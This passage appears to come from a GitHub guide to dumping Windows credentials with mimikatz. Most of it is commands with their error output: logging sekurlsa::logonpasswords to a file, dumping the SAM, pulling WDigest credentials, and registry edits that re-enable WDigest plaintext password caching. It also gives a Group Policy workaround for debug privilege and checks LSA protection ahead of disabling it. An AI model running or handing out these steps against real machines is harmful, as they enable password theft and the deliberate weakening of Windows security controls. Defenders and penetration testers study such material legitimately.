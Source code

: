 Audit by logging the file

```
mimikatz # log credentials.txt

mimikatz # sekurlsa::logonpasswords
```

If you receive this error

```
mimikatz # privilege::debug
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061
```

Go to the **Group Policy Management Editor** -> Windows Settings -> Security Settings -> Local Policies -> User Rights Assignment -> Debug programs -> then uncheck the box **"Define these policy settings:"**

### 3.2 - SAM

```
mimikatz # lsadump::sam
```

### 3.3 - Enable Wdigest

Otherwise another way around it is to dump with **WDigest**

```
mimikatz # sekurlsa::wdigest
```

If you receive this error

```
mimikatz # sekurlsa::wdigest
ERROR kuhl_m_privilege_acquireLSA ; Handle on memory (0x00000005)
```

Simply downgrades to enable mimikatz to retrieve the credentials of the windows workstation

```
C:\> reg.exe add "HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 1 /f

PS C:\> Set-ItemProperty -Force -Path "HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" -Name "UseLogonCredential" -Value "1"
```

### 3.4 - Disable LSA Protection

```
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_privilege_acquireLSA ; Handle on memory (0x00000005)
```

```
C:\> reg.exe query "HKLM\SYSTEM\CurrentControlSet\Control\Lsa" /v RunAsPPL
```
